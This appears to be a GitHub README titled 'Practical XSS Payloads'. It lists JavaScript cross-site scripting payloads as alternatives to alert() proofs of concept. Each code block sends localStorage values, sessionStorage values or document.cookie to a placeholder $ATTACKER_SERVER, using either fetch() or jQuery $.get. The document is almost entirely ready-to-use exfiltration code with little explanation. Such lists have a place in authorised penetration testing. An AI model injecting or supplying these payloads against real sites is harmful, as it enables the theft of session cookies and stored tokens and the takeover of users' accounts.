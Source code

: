 # Practical XSS Payloads
## About
Instead of using alert() for your XSS payloads, I encourage you to check out some XSS payloads which have purpose and hammer home a point.
+ **TLDR:** *POC||GTFO*


# EXFILTRATION
## FETCH
### GET VALUE FROM LOCAL STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $FETCH
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
## JQuery AJAX
### GET VALUE FROM LOCAL STORAGE AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $.GET:
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
